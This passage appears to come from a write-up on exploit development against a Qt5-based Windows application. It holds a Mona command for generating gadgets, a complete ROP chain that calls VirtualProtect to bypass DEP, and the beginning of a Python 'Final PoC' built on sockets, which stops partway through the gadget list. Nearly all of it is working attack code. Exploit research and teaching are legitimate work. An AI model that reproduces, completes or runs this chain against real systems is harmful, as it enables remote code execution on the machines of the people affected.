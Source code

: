

To generate a list of usable gadgets from our chosen modules, you can use the following command in Mona:
```sh
 !mona rop -m Qt5Core.dll -cpb '\x00'
```

I choose Qt5Core.dll to find ROP.
```sh
# rop chain generated with mona.py - www.corelan.be
0x61ba8b5e,  # POP EAX # RETN [Qt5Gui.dll]
0x690398a8,  # ptr to &VirtualProtect() [IAT Qt5Core.dll]
0x61bdd7f5,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [Qt5Gui.dll]
0x68aef542,  # XCHG EAX,ESI # RETN [Qt5Core.dll]
0x68bfe66b,  # POP EBP # RETN [Qt5Core.dll]
0x68f82223,  # & jmp esp [Qt5Core.dll]
0x6d9f7736,  # POP EDX # RETN [Qt5Sql.dll]
0xfffffdff,  # Value to negate, will become 0x00000201
0x6eb47092,  # NEG EDX # RETN [libgcc_s_dw2-1.dll]
0x61e870e0,  # POP EBX # RETN [Qt5Gui.dll]
0xffffffff,  #
0x6204f463,  # INC EBX # RETN [Qt5Gui.dll]
0x68f8063c,  # ADD EBX,EDX # ADD AL,0A # RETN [Qt5Core.dll]
0x61ec44ae,  # POP EDX # RETN [Qt5Gui.dll]
0xffffffc0,  # Value to negate, will become 0x00000040
0x6eb47092,  # NEG EDX # RETN [libgcc_s_dw2-1.dll]
0x61e2a807,  # POP ECX # RETN [Qt5Gui.dll]
0x6eb573c9,  # &Writable location [libgcc_s_dw2-1.dll]
0x61e85d66,  # POP EDI # RETN [Qt5Gui.dll]
0x6d9e431c,  # RETN (ROP NOP) [Qt5Sql.dll]
0x61ba8ce5,  # POP EAX # RETN [Qt5Gui.dll]
0x90909090,  # nop
0x61b6b8d0,  # PUSHAD # RETN [Qt5Gui.dll]
```

Final PoC.
```python
import socket
import struct

def create_rop_chain():
	# rop chain generated with mona.py - www.corelan.be
        rop_gadgets = [
		0x61ba8b5e,  # POP EAX # RETN [Qt5Gui.dll]
		0x690398a8,  # ptr to &VirtualProtect() [IAT Qt5Core.dll]
		0x61bdd7f5,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [Qt5Gui.dll]
		0x68aef542,  # XCHG EAX,ESI # RETN [Qt5Core.dll]
		0x68bfe66b,  # POP EBP # RETN [Qt5Core.dll]
		0x68f82223,  # & jmp esp [Qt5Core.dll]
		0x6d9f7736,  # POP EDX # RETN [Qt5Sql.dll]
		0xfffffdff,  # Value to negate, will become 0x00000201
		0x6eb47092,  # NEG EDX # RETN [libgcc_s_dw2-1.dll]
		0x61e870e0,  # POP EBX # RETN [Qt5Gui.dll]
		0xffffffff,  #
		0x6204f463,  # INC EBX # RETN [Qt5Gui.dll]
		0x68f8063c,  # ADD EBX,EDX # ADD AL,0A # RETN [Qt5Core.dll]
		0x61ec44ae,  # POP EDX # RETN [Qt5Gui.dll]
		0xffffffc0,  # Value to negate, will become 0x00000040
		0x6eb47092,  # NEG EDX # RETN [libgcc_s_dw2-1.dll]
		0x61e2a807,  # POP ECX # RETN [Qt5Gui.dll]
		0x6eb573c9,  # &Writable location [libgcc_s_dw2-1.dll]
		0x61e85d66,  # POP EDI # RETN [Qt5Gui.dll]
		0x6d9e431c,  # RETN (ROP NOP) [Qt5Sql.dll]
		0x61ba8ce5,  # POP EAX # RETN [Qt5Gui.dll]
		0x90909090,  # nop
```